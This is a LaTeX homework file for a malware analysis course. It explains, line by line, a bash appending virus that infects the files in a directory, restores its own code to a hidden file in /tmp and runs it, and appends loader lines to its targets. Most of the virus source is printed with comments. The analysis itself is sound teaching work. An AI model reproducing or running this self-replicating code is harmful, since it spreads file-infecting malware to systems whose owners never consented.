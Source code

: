 \documentclass[a4paper,6.5pt]{article}
\begin{document}
\begin{center}
Malware analysis and design 

Homework No. 2

Vincenzo Arceri VR386484 Giovanni Liboni VR387955
\end{center}

The bash code given as assignment is a appending virus that copies his own code after the target file code, if this isn't already infected.
Below we explain in detail the virus behavior.

\begin{lstlisting}
if [ "$1" == "test" ]; then  #@1// If the first parameter is equals to "test" exit 
  exit 0  #@2				// with exit status 0 because the file is already infected
fi  #@3
MANAGER=(test cd ls pwd)  #@4 // Array of 4 elements, used as temporary file names
RANDOM=$$  #@5 // Reseed the random number generator using virus process ID
for target in *; do  #@6	// For each file in the directory
	nbline=$(wc -l $target)  #@7		// Count the number of the target file					
	nbline=${nbline##}  #@8	// Trim the left side of the string
	nbline=$(echo $nbline | cut -d " " -f1)  #@9 // and retrives the number of lines
  
	// Checks if the chosen file has less number of lines of the virus. 
	// If it is true continue with another file
	if [ $(($nbline)) -lt 39 ]; then  #@10
		continue  #@11
	fi  #@12
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
	NEWFILE=${MANAGER[$((RANDOM % 4))]}  #@13
	// Takes the last 36 lines of target and sort them with ordering based on the number after @.
	// It restores the code in the original order and writes the output in an hidden temporary file. (name chosen in the previous line)
	tail -n 36 $target | awk '{ print($NF" "$0) }' | cut -d"@" -f2- | sort -g | cut -d" " -f2- > /tmp/".$NEWFILE"  #@14
	// Gives to /tmp/."$NEWFILE"  the execution permission and execute it redirecting stderr to /dev/null
	chmod +x /tmp/".$NEWFILE" && /tmp/".$NEWFILE" test 2> /dev/null;  #@15
  // Checks the exit code of the last command executed: if it correspond to the virus it returns 0 (see first 3 lines) and continue, because the file is already infected. 
  if [ "$?" == "0" ]; then  #@16
    continue  #@17
  fi  #@18
	// Choose the name of the new file from one of the value contained in MANAGER, randomly.
  NEWFILE=${MANAGER[$((RANDOM % 4))]}  #@19
	// Path of the just created file								
  NEWFILE="/tmp/.$NEWFILE"  #@20
	// Appends to the target file the nexts 3 lines of code that will be executed  when the target file will be run: these lines gets the last 36 lines of target (the virus) and executes it in background: there three lines are used for the infection phase; re-order the last 36 lines of the infected file and execute them.
  echo "tail -n 36 $0 | awk '{ print(\$NF\" \"\$0) }' | cut -d\"@\" -f2- | sort -g | cut -d\" \" -f2- > $NEWFILE" >> $target  #@21
  echo "chmod +x $NEWFILE && $NEWFILE &" >> $target  #@22
  echo "exit 0" >> $target  #@23


\end{lstlisting}
\end{document}

